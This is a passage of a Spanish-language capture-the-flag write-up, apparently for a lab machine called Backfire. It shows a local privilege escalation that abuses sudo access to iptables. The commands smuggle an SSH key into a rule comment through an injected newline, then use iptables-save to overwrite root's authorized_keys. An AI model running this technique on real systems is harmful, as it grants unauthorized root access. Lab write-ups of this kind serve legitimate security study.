 <img src="/images/writeup-backfire/Pasted image 20250512124604.png">

buscando modos de escalar privilegios con esto, encontré un articulo interesante:
https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/

habla sobre, como podemos manipular el comando para que muestre lineas aleatorias, y junto con iptables-save como podemos sobre escribir archivos

al intentar sobreescribir el /etc/hosts como mencionan, no se puede asi que, podemos hacer lo mismo que hemos estado haciendo durante toda la maquina, inyectar nuestra authorized_keys en el directorio de root


primero vamos a escribir el iptables con:
```bash
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'3vilsec\nss..................a0\n'
```

para verificar que el comando funciona:
```bash
sudo iptables -S
```
debe mostrarte:
```
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 5000 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 7096 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -i lo -m comment --comment "3vilsec
s..................................................a0 <------esta es la key pero la he quitado
" -j ACCEPT
```

luego vamos a sobreescribir con:
```bash
sudo iptables-save -f /root/.ssh/authorized_keys
```

y desde nuestra maquina local nos conectaremos:
<img src="/images/writeup-backfire/Pasted image 20250512125324.png">
